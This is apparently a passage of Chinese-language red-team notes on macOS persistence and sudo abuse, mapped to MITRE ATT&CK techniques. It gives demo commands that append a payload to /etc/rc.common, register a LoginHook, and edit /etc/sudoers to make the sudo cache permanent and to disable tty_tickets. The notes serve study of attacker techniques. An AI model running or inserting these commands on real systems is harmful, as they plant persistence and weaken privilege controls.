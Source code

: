 ## T1037.004 - Rc.common

macOS在启动的过程中会执行`source /etc/rc.common`，红队可以根据这个特性，使用rc.common进行持久化，Demo如下

```
sudo echo osascript -e 'tell app "Finder" to display dialog "Hello World"' >> /etc/rc.common
```

## T1547.007 - Re-opened Applications

简而言之就是修改`~/Library/Preferences/com.apple.loginwindow.plist` 和 `~/Library/Preferences/ByHost/com.apple.loginwindow.* .plist`中指向的文件来实现持久化，

Demo如下

```
sudo defaults write com.apple.loginwindow LoginHook #{script}
```

## T1548.003 - Sudo and Sudo Caching

`sudo`命令允许当前用户以root权限进行操作.sudo也有一些有用的配置例如`timestamp_timeout`代表使用sudo命令密码的有效期.这是因为sudo有缓存权限的能力.sudo在`/var/db/sudo`文件中设置`timestamp_timeout`,另外,还有一个`tty_tickets`将每个terminal session设置为独立的.这意味着一个终端的超时时间不会影响另外一个

通过查看`/var/db/sudo`的时间戳来决定是否需要重复使用密码,而如果tty_tickets设置为不可用,那么任何新的终端使用sudo都不用输入密码了，Demo如下

###### 

###### Demo1 Unlimited sudo cache timeout

```
sudo sed -i 's/env_reset.*$/env_reset,timestamp_timeout=-1/' /etc/sudoers
sudo visudo -c -f /etc/sudoers
```

###### Demo2 Disable tty_tickets for sudo caching

```
sudo sh -c "echo Defaults "'!'"tty_tickets >> /etc/sudoers"
sudo visudo -c -f /etc/sudoers
```

